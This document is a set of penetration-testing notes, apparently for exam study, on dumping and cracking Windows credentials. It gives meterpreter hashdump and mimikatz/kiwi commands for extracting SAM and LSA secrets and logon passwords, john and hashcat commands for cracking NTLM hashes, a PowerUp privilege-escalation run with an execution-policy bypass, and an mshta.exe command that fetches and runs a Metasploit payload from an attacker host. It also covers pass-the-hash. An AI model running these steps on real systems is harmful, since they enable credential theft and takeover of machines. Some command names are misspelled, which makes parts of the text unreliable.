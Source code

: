 # Windows Credential Dumping and Cracking

- **LSSAS service - Local Security Authority Subsystem Service**
	- stores cache of SAM database (Security Account Manager)
	- migrate to lsass process: pgrep lsass
	- meterpreter command: hashdump - copy/paste as-is in a file (hash_file)

- meterpreter module: mimikatz : load kiwi

- johntheripper: for ntlm hash
	- john --list=formats
	- john --format=NT hashes.txt --wordlist=<wordlist_path>

- hashcat
	- -m specifies hash_type. eg. 1000=ntlm
	- -a specifies attack_mode. eg 3=brute-force
	- hashcat -m 1000 -a3 [hash_file] [wordlist]	

Useful metasploit modules
	- auxiliary/analyze/crack_windows : set custom_wordlist 
	- run this module after running hashdump - once creds are stored in msfdb
	
	
# PowerUp

- https://github.com/PowerShellMafia/PowerSploit

- In target machine:
	- powershell -ep bypass (PowerShell execution policy bypass)
	- . .\PowerUp.ps1
	- Invoke-PrivescAudit - it will find misconfig files/leftover files like Unattend.xml
	- Get password from the Unattend.xml file, decode base64.
	- 
	  ```
	  $password='QWRtaW5AMTIz'
  	  $password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($password))
  	  echo $password
  	  ```
	- runas.exe /user:administrator cmd

- In attacker machine:
	- use exploit/windows/misc/hta_server
	- running the above module generates a .hta payload, run in cmd on target
	- on target cmd: mshta.exe http://10.10.0.2:8080/6Nz7aySfPN.hta

# Mimikatz

- check [Host-based attacks > Windows > SMB](../Host%20Based%20Attacks/win-SMB.md)
- in meterpreter, first, migrate to lsass.exe process.
- syskey is used to encrypt sam db
- load kiwi
	- creds_all
	- las_dump_sam
	- lsa_dump_secrets
- alrenatively, create temp directory in C:\Temp and 
- upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
- .\mimkatz.exe
	- privilege::debug - should return Privilege '20' OK
	- lsadump::sam
	- sekurlsa::logonpasswords
- Use psexec module for pass-the-hash attack
